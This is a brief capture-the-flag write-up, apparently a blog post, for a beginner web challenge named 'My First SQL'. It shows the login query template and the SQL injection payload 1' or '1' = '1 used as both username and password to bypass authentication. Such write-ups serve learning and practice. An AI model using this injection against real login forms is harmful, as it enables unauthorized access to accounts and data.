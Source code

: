 ```yaml
---
layout: post
title: My First SQL
category:ctf
---
```

<b>Category: Web Exploitation
  
My First SQL


<i>I really need access to website, but I forgot my password and there is no reset. Can you help?
HINTS
Have you heard about SQL injection?</i>

SELECT * FROM Users WHERE Username='$username' AND Password='$password'

$username = 1' or '1' = '1

$password = 1' or '1' = '1
